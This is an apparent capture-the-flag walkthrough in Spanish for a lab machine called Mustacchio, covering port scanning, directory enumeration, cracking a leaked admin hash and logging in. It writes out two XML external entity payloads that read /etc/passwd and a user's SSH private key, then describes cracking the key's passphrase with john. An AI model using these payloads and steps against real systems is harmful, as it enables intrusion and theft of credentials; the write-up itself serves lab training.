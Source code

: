### nmap 
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:34 EST
Nmap scan report for 10.10.163.196
Host is up (0.23s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.04 seconds
```
tenemos un archivo robots.txt
### Ports: 22/ssh - 80/http - 8765/http 

### Enumeracion del puerto 80
![[Pasted image 20231211214708.png]]
### parece que no hay mucha cosa interesante veamos el archivo robots.txt
![[Pasted image 20231211215451.png]]
parece que el archivo esta vacio
###  gobuster
![[Pasted image 20231211215631.png]]
gobuster nos certifica que existe el archivo robots.txt aparte de esto de todos los subdirectorios el mas llamativo es custom
### subdirectorio custom/js
![[Pasted image 20231211215353.png]]
### el archivo users.bak lo podemos descargar 
![[Pasted image 20231211220112.png]]
parece que tenemos un usuario admin con un hash asi que vamos a decodearlo

### usamos hashid para identificar el hash
![[Pasted image 20231211220355.png]]
buscamos un decoder de hash SHA-1
### tenemos un usuario y ahora una pass
![[Pasted image 20231211220902.png]]
### iniciamos session cn el panel de login
![[Pasted image 20231211222507.png]]
### parece que el panel de comandos no es vulnerable a reverse shell ni inyeccion sql
### miramos el codigo fuente
![[Pasted image 20231211222616.png]]
### parece que aqui nos dejan una pista asi que vamos a mirar este subdirectorio
### se nos descarga un archivo automaticamente y lo abrimos con strings 
parece que tenemos un archivo xml
![[Pasted image 20231211222919.png]]
### xml inyection 
usaremos esta xml inyeccion para intentar mirar el etc/passwd

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

![[Pasted image 20231212001031.png]]
### perfecto tenemos respuesta. vemos que existe un usuario llamado barry. vamos a intentar consegui su id_rsa modificando la ruta en el xml

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```
### tenemos la id_rsa de barry
![[Pasted image 20231212001934.png]]
para poder copiar la id_rsa de una mejor podemos hacer Ctrl + u para ver el codigo fuente
![[Pasted image 20231212002209.png]]
### puerto 22/ssh
![[Pasted image 20231212002530.png]]
### intentamos conectarnos por ssh pero necesitamos otorgar permisos de lectura. esto lo hacemos con el comando chmod luego intentamos ingresar pero al parecer la id_rsa necesita una clave asi que vamos a conseguirla
![[Pasted image 20231212002803.png]]
### con estos pasos podemos conseguir el hash de la id_rsa y lo enviamos a un archivo llamado id_hash como se ve en la imagen, hacemos un cat para asegurarnos que el archivo id_hash contenga el hash
### usaremos la herramienta john para decodear el hash
![[Pasted image 20231212003052.png]]
### ahora tenemos la palabra clave que necesita la id_rsa asi que intentemos entrar por ssh de nuevo
